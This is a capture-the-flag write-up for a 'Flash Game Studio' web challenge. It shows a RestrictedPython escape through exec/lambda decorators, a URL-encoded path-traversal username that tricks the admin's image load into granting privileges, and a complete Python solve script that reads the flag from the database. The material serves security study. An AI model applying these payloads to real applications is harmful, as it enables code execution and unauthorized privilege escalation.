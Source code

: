 ```yaml
---
ai_date: '2025-04-27 05:28:06'
ai_summary: Exploited FlashGameHelper via __import__ and __getattr__ bypass, then
  escalated privileges by manipulating image URLs and using URL encoding to execute
  arbitrary code, ultimately reading flag from database.
ai_tags:
- xss
- url-encoding
- payload-execution
created: 2025-04-19T20:17
points: 496
solves: 11
tags:
- python
- jail
- csrf
title: Flash Game Studio
updated: 2025-04-20T20:28
---
```


At first glance `FlashGameHelper`  is really sus. It runs user provided code.

So I tried to exploit it first, it is protected with `RestrictedPython`, which sounds pretty secure.

It is pretty obvious that you can inject any code by using a fancy `game_name`.

My first payloads were trying to bypass the `__getitem__` and `__getattr__` ban via destructuring.

```python
ExploitGame:
    pass
g = globals()
[a,b,c,d,e,f,g,h,i,j,k,l,m,n,o,p,q,r,s,t,u,v,w,x,y,z,a1,a]=dir(g)
class Dummy
```

But then my teammate @RJCyber just gave me the payload (😭 my python jail skills have deteriorated). How did I forget about decorators bruh.

```python
@exec
@lambda x: "__import__('os').system('ls')"
def a():pass
```

## role escalation

To actually activate that payload we need to make ourselves a dev.

The admin has to visit `/admit/<uid>`, but all the templates are well defined and there is basically no place to XSS or redirect.

How?

```html
<img class="portrait" src="/user/profile_pic/{{username}}" height="150px"><br>
```

I actually tried to XSS the image tag but later realised I can just make the image point to `/admit/<uid>`.

To do this my username would be `../../admit/<uid>`.

But wait... the `username` has to be passed through a route parameter, and the `..` will be normalized by flask.

```python
@app.route("/request_access/<username>")
def request_access(username):
    visit_profile(username)
    return "Admin visited your profile but probably denied you!"
```

We can solve it by url encoding our payload, a few times.

Just keep trying until it works!

```python
payload = ("../../../admit/"+uid1)
quote(payload.replace('/', '%2F').replace('.', '%2E'))
```

Ok so now let's run this.

## sequence

1. Register 2 users A and B
2. B has username `"../../../admit/" + uid_A"`
3. B requests for admin
4. Admin tries to load image and promotes user A to admin

```html
<img class="portrait" src="/user/profile_pic/../../../admit/<uid_A>" height="150px"><br>
```

Then as admin we logout-login user A, create the game and run it.

## payload

So we can run shell commands, cool, but the flag is inside a database and getting there takes a lot of effort if we use shell.

When experimenting I also discovered that lengthy payloads seems to not work at all, so base64 encoding an entire python file is not feasible.

However after some sleep-deprived grinding I finally came up with something that worked.

```python
from app import database_helper as a
open("static\x2Fflag.txt","w").write(a.getGames("admin")[0][2])
```

This is then wrapped in the carrier shown before.

```python
E: pass
@exec
@lambda x: '\nfrom app import database_helper as a\nopen("static\\x2Fflag.txt","w").write(a.getGames("admin")[0][2])\n'
def a():pass
class D
```

And we have our final payload.

> Note that running a game requires you to put the name (the code) as an url parameter, I was lazy and just percent encoded everything.

## solve

```python
import random
import re
import requests
from urllib.parse import quote
target = "http://localhost:80"
# target = "http://54.163.45.44"


def encode(s):
    result = []
    for ch in s:
        utf8_bytes = ch.encode('utf-8')
        for b in utf8_bytes:
            result.append(f'%{b:02X}')
    return ''.join(result)


def reg(username):
    s = requests.Session()
    r = s.post(target+"/register", data={"username": username, "password": "www"})
    r.raise_for_status()
    r = s.post(target+"/login", data={"username": username, "password": "www"})
    r.raise_for_status()
    return s


def get_uid(s):
    r = s.get(target+"/profile")
    r.raise_for_status()
    pat = re.compile(r"your UID is ([\w-]+)")
    m = pat.search(r.text)
    return m.group(1)


u1 = "kumo"+str(random.randint(0, 1000000))
s1 = reg(u1)
uid1 = get_uid(s1)
payload = ("../../../admit/"+uid1)
print(payload)
s2 = reg(payload)
print(f"uid1: {uid1}")

print(s2.get(target+"/request_access/"+quote(payload.replace('/', '%2F').replace('.', '%2E'))).url)
s1.get(target+"/logout")
s1 = reg(u1)

code = '''
from app import database_helper as a
open("static\\x2Fflag.txt","w").write(a.getGames("admin")[0][2])
'''
code = """E: pass
@exec
@lambda x: """+repr(code)+"""
def a():pass
class D""".replace('/', '\\x2F').replace('&', '\\x26')

print(s1.get(target+"/dev").status_code)
s1.post(target+"/create_game", data={
    "game_name": code,
    "game_desc": "test",
}).raise_for_status()
print(s1.get(target+"/game/"+u1+"/"+encode(code)+"/test").text)
print(s1.get(target+"/static/flag.txt").text)
```

```flag
UMASS{CR0SS_th3_fl4sH_g4m3_t0_1nj3ct_Pyth0n!1!!11}
```